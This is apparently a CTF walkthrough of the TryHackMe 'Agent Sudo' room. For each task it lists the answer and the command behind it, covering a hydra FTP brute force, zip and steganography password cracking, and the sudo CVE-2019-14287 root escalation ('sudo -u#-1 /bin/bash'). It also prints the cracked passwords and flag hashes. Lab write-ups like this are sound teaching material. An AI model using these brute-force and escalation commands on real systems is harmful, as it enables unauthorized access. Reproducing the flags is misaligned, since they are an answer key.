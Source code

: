 
#Agent-Sudo

```
export IP=10.10.103.171
```

#Task 1 Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

1. Deploy the machine
```
NO answer needed
```

#Task 2 Enumerate

Enumerate the machine and get all the important information
 	

1. How many open ports?

```
3
```

3.How you redirect yourself to a secret page?

```
User-Agent  (curl http://$IP -H "User-Agent: C" -L)
```

3. What is the agent name?
```
Chris
```

#Task 3 Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

1. FTP password
```bash
crystal  (via hydra : hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP)
```
	
2. Zip file password
```
alien (binwalk e pngfile,zip2john e num.zip>hash.txt,john hash.txt --wordlist=rockyou.txt AND unzipped with #7z e num.zip)
```
	
3. steg password
```
Area51 (from the message in above unzipped file..decoded a base64 string)
``` 	

4. Who is the other agent (in full name)?
```
james (steghide extract -sf jpgfile ,Got his name and password for chris login)
```	

5. SSH password
```
hackerrules!
```

#Task 4 Capture the user flag

You know the drill.

1. What is the user flag?
```
b03d975e8c92a7c04146cfa7a5a313c7 (from the ssh login as chris)
```
	
2. What is the incident of the photo called?
```
Roswell alien autopsy (scp james@$IP:/home/james/Alien_autospy.jpg . #To download the jpgfile to our system and searched it with google image search)
```

#Task 5 Privilege escalation

Enough with the extraordinary stuff? Time to get real.
 	

1. CVE number for the escalation 

(Format: CVE-xxxx-xxxx)
```
cve-2019-14287 (scp /home/safan/linpeas/linpeas.sh james@$IP:/dev/shm and through sudo -l command we got  "(ALL, !root) /bin/bash" and googled it)
```
	
2. What is the root flag?
```
b53a02f55b57d4439e3341834d70c062
(got the root privilege by CVE*** bug using this "sudo -u#-1 /bin/bash")
``` 	

3. (Bonus) Who is Agent R?
```
Deskel (with the message of root.txt)
```




